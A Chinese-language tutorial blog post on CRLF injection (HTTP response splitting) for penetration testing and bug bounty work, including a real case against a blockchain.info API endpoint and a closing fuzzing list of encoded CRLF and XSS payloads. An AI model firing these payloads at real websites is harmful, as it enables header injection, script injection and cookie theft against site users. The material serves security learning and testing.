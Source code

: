# Original
今天看国外案例的时候看到CRLF的案例，突然也想写一篇文章来记录一下。

# First What Is CRLF
```
CRLF是Carriage-Return Line-Feed的缩写，意思是回车换行，就是回车(CR, ASCII 13, \r) 换行(LF, ASCII 10, \n)，CRLF字符（%0d%0a）CRLF也被称为HTML拆分。
```
我们在渗透测试过程中可以寻找我们可控返回包header的请求
比如下面这个请求
```
GET /test/demo.php?url=https://c1h2e1.github.io
xxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxx
```
response

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://c1h2e1.github.io
```
向上述这种返回包里面的header可控的请求我们就可以尝试进行CRLF注入。
```
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<script>alert(1)</script>
```
`Content-Length：0` 代表header 的结尾，返回包会变成这个样子
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://c1h2e1.github.io
Content-Length: 0

<script>alert(1)</script>

```
这样我们就会触发我们的js并弹窗
这也就是最简单的一次**crlf注入**
# 案例
我在国外的漏洞库`pentester.land`搜集了2个CRLF案例
案例一
http://blog.shashank.co/2017/11/crlf-injection-in-bockchaininfo.html
```
GET /charts/total-bitcoins?cors=true&format=csv&lang=english HTTP/1.1
Host: api.blockchain.info
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
HTTP/2.0 200 OK
date: Tue, 31 Oct 2017 15:47:21 GMT
content-type: text/csv; charset=ascii
content-length: 10953
access-control-allow-origin: *
cache-control: public, max-age=60
content-disposition: attachment; filename="total-bitcoins.csv"
content-language: english


"lang"参数出现在了返回包里
现在为了注入CRLF 我们需要url编码一下\r\n "%0D%0A"
据此发送如下请求
https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0ATEST
新的header出现在了返回包里

这里存在CRLF注入漏洞 ，这样可以进行利用CRLF漏洞去执行JavaScript代码，去盗取cookie

最终的Payload

https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0AX-XSS-Protection:0%0AContent-Type:text/html%0AContent-Length:35%0A%0A%3Csvg%20onload%3Dalert%28document.domain%29%3E&__cf_waf_tk__=012853002E6loVIOSyqHfdxrvHJ87MshEnZI

```

案例二

https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62
```
因为详情写的没有请求包和发现过程
但我可以推算一下
他的请求包出现在了返回包中，比如http://test.com/aaaaaa
我们的aaaa会出现在header中，之后我们就可以测试CRLF的攻击了
利用思路和原来一样就不再写了
```
# KEEP FUZZING
我们在实战中可以选用fuzz 的手段进行挖掘和bypass
so我们再一次分享Payload
```
%0d%0a
%0d%0a%0d%0a
r%0d%0aContentLength:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContentType:%20text/html%0d%0aContentLength:%2019%0d%0a%0d%0a<html>Injected%02Content</html>
%0d%0d%0a%0a
0x0D0x0A
0x0D0x0D0x0A0x0A
\r\n
%5cr%5cn
%0%0d%0ad%0%0d%0aa
%0%0D%0AD%0%0D%0AA
%0d%0aContentType:%20text/html;charset=UTF-7%0d%0aContent-Length:%20129%0d%0a%0d%0a%2BADw-html%2BAD4-%2BADw-body%2BAD4-%2BADw-script%2BAD4-alert%28%27XSS,cookies:%27%2Bdocument.cookie%29%2BADw-/script%2BAD4-%2BADw-/body%2BAD4-%2BADw-/html%2BAD4
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3Ehttp://www.test.com
%0d%0a%0d%0a%3Chtml%3E%3Cbody%3E%3C%2Fbody%3E%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fs.js%3E%3C%2Fscript%3E%3Cscript%3Ealert(%22location.host%20is:%20%22%2Blocation.host)%3C%2Fscript%3E%3C%2Fhtml%3E
%0d%0a%0d%0a%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fxss.js%3E%3C%2Fscript%3E
%22%3E%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E%3C%22
%0AContent-type:%20text/html%0A%0Ahttp://www.test.com/%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0d%0a%0d%0a%3Cscript%3Ealert(%22XSS%22)%3C%2Fscript%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
```

# 总结
临时想到要写的一篇文章，研究新漏洞总结新思路！！
